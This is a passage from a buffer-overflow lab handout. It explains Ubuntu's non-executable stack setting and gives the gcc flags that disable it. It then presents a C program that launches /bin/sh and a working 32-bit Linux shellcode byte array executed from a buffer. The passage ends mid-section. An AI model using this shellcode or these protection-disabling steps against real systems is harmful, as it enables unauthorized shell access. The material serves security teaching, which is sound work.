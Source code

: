 - **Non-Executable Stack.** Ubuntu used to allow executable stacks, but this has now changed: the binary images of programs (and shared libraries) must declare whether they require  executable stacks or not, i.e., they need to mark a field in the program header. Kernel or dynamic linker uses this marking to decide whether to make the stack of this running program executable or non-executable.  This marking is done automatically by the recent versions of gcc, and by default, the stack is set to be non-executable. To change that, use the following option when compiling programs:

  ```shell
  For executable stack:
  $ gcc -z execstack -o test test.c
  
  For non-executable stack:$ gcc -z noexecstack -o test test.c            
  ```

#### **Shellcode**s

Before you start the attack, you need a shellcode. A shellcode is the code to launch a shell. It has to be loaded into the memory so that we can force the vulnerable program to jump to it. Consider the following program: 

```c
#include <stdio.h>
int main( ) {
  char *name[2];
  
  name[0] = ''/bin/sh'';
  name[1] = NULL;
  execve(name[0], name, NULL);
}
```

The shellcode that we use is just the assembly version of the above  program. The following program shows you how to launch a shell by  executing a shellcode stored in a buffer. Please compile and run the  following code, and see whether a shell is invoked.

1. **For 32bit** 

2. ```c
   /*call_shellcode.c*/
   /*for linux 32bit*/
   /*A program that creates a file containing code for launching shell*/
   #include <stdlib.h>
   #include <stdio.h>
   const char code[] =
     "\x31\xc0" /*Line 1: xorl %eax,%eax*/
     "\x50" /*Line 2: pushl %eax*/
     "\x68""//sh" /*Line 3: pushl $0x68732f2f*/
     "\x68""/bin" /*Line 4: pushl $0x6e69622f*/
     "\x89\xe3" /*Line 5: movl %esp,%ebx*/
     "\x50" /*Line 6: pushl %eax*/
     "\x53" /*Line 7: pushl %ebx*/
     "\x89\xe1" /*Line 8: movl %esp,%ecx*/
     "\x99" /*Line 9: cdq*/
     "\xb0\x0b" /*Line 10: movb $0x0b,%al*/
     "\xcd\x80" /*Line 11: int $0x80*/
     ;
   int main(int argc, char **argv)
   {
     char buf[sizeof(code)];
     strcpy(buf, code);
     ((void(*)( ))buf)( );
   }            
   ```

   ```